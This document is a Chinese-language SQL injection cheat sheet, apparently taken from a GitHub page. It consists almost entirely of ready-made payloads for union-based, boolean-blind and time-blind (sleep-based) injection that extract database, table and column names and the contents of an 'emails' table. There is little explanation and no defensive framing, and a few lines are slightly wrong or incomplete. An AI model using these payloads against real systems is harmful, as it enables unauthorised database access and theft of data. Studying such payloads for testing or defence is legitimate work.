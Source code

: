 ### 1. union注入

#### (1). 获取数据库名

```
-1' union select 1,database(),version() -- qwe 
```

#### (2). 获取表名

```
-1' union select 1,database(),table_name from information_schema.tables where table_schema=database() -- qwe
```

#### (3). 获取字段名

```
-1' union select 1,table_name,group_concat('_',column_name) from information_schema.columns where table_schema=database() and table_name='emails' -- qwe
```

#### (4). 获取具体数据

```
-1' union select 1,2,group_concat(concat_ws('_',id,email_id)) from emails -- qwe
```

### 2. 布尔盲注

#### (1). 获取数据库名

##### a. 获取数据库名长度

```
1' and (length(database()))>10 --+
1' and (length(database()))>5 --+
```

##### b. 暴力破解数据库名称

```
1' and ascii(substr(database(),1,1)) =97  --+		//65~122 
```

#### (2). 获取表名

##### a. 获取表名长度

```
//判断表的个数
1' and 
	(select count(*) from information_schema.tables where table_schema=database()
	)>10 -- qwe
//判断表名	
1' and 
    (length((select table_name from information_schema.tables where table_schema=database() limit 0,1)))=10 -- qwe
	
```

##### b. 暴力破解表名

```
str= select table_name from information_schema.tables where table_schema=database() limit 0,1
1' and ascii(substr(str,1,1))=m -- qwe		//65<=m<=122
//最终
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=65 -- qwe

```

#### (3). 获取表字段名

##### a. 获取字段名长度

```
1' and (length((select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1))) >10 -- qwe
```

##### b. 暴力破解字段名

```
str= select column_name from information_schema.tables where table_schema=database() and table_name='emails' limit 0,1
data= substr(str,1,1)
1' and ascii(data) -- qwe

//最终：
1' and ascii((substr((select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),1,1)))=100 -- qwe
```

#### (4). 判断字段数据

```
1' and (select group_concat(id) from emails) -- qwe
```

### 2. 时间盲注

#### (1). 获取第一张表的表名

##### a. 判断长度

```
//判断长度
1' and if(exp1,sleep(10),0) -- qwe
exp1= length(str)>10
str= select table_name from information_schema.tables where table_schema=database()

//综上：
1' and if((length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>10),sleep(10),0) -- qwe
```

##### b. 暴力破解

```
//暴力破解
1' and if(exp1,sleep(10),0) -- qwe
exp1= ascii(data)>m		//65<=m<=122
data= substr(str,1,1)
str= select table_name from information_schema.tables where table_schema=database() limit 0,1

//综上：
1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=10,sleep(10),0) -- qwe
```

#### (2). 字段名

##### a. 字段长度

```
1' and if(exp1,sleep(10),0) -- qwe
exp1= length(str)>10
str= select column_name from information_schema.columns where table_schema=database() and table_name='emails' 

//综上：
1' and if((length((select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1)))=10,sleep(10),0) -- qwe
```

##### b. 暴力破解

```
1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),1,1))=10,sleep(10),0) -- qwe
```

